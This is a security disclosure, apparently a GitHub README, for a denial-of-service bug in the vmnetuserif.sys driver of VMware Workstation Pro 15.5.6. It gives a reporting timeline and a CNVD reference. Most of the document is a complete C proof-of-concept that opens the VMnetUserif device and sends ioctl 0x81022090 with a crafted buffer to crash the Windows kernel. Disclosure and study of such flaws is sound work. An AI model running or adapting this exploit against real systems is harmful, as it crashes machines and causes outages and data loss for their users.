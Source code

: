 # VMware network application interface driver allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to Security@vmware.com on On 27/8/2020 and now I have been told they have ignored the bugs and the details can be published.  I think it is a must to list the detailed infomation here.
## Time Line
 * 27/8/2020 Bugs were reported to Security@vmware.com.
 * 25/9/2020 Vmware got confirmation that the poc could cause system crash.
 * 26/9/2020 Vmware ignored the infomation for the poc required privilige to file "\\\\.\\VMnetUserif"
 * 12/11/2020 POC published.
 

 ## Abstract
 
* Name: VMware Workstation
* Date: 2020-8-27
* Reporter: Shuaibing Lu
* Vendor: http://www.vmware.com/
* Software Link: 3.https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859
* Version: VMware Workstation Pro 15.5.6
### Description
Kernel module vmnetuserif.sys in the network application interface driver of VMware Workstation Pro 15.5.6 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\VMnetUserif" with the command **0x81022090** and cause a kernel crash.

To explore this vulnerability, some one must open the device file  "\\\\.\\VMnetUserif", call an ioctl system call on this device file with the command **0x81022090** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64

//Software official website:https://www.vmware.com/cn.html

//Software download address:http:https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859

//Software version：15.5.6 build-16341506

//Affected Component:

//poc


#include<stdio.h>

#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[100] = "\\\\.\\VMnetUserif";
    long command = 0x81022090;
    HANDLE hDriver = CreateFileA(DeviceName,
        GENERIC_READ | GENERIC_WRITE,					// Open for reading/writing| GENERIC_WRITE
        FILE_SHARE_READ | FILE_SHARE_WRITE, 			// Allow Share
        NULL,											// Default security
        OPEN_EXISTING,									// Opens a file or device, only if it exists.
        0, //FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,	// Normal file
        NULL); //CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    BYTE  brutebufInput[0x10000];
    BYTE  brutebufOutput[0x10000];
    BYTE  bufInput[0x10000];
    BYTE  bufOutput[0x10000];
    DWORD j = 100;
    DWORD nbBytes = 0;
    //LPVOID lpFakeBuffer = malloc(0x20000);

    memset(brutebufInput, 'A', 0x10000);

    //LPVOID Address = malloc(0x20000);

    memset(brutebufOutput, 'A', 0x10000);

    //tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);
    DeviceIoControl(hDriver,command,&brutebufInput,1,&brutebufOutput,1,&nbBytes,NULL);
    


    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53154

### Screenshot

![image](https://github.com/datadancer/WinSysVuln/blob/main/VMnetUserif.png)
